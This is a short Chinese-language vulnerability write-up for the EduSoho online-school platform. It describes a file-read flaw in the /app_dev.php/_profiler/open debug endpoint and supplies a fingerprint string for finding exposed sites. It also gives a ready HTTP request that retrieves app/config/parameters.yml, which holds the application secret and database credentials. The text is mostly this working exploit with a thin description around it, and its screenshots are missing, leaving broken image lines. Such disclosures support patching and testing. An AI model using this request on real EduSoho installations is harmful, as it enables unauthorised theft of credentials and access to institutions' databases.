


# EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。

通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息。

## 漏洞影响

EduSoho 教培系统

## 网络测绘

```
"Powered By EduSoho"
```

## 漏洞复现

登录页面



指纹


poc

```
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

